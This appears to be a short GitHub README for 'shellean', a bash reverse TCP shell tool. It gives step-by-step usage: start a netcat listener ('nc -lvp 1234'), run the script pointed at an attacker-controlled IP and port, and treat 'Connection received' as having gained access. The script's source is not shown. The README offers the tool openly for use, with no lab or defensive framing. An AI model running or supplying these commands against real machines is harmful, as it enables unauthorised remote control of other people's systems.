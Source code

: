 ## shellean

**Reverse TCP Shell.**  

**1. Fire up Netcat for incoming connections. `$ nc -lvp 1234`**  
**2. Run shellean.sh. `$ ./shellean.sh -a 192.168.1.109 -p 1234`**  
**3. If you get this message `Connection received` it means you gained access.**  

  <a href="https://www.gnu.org/software/bash/" target="_blank" rel="noreferrer">
    <img src="https://www.vectorlogo.zone/logos/gnu_bash/gnu_bash-icon.svg" alt="bash" width="50" height="50" />
  </a>
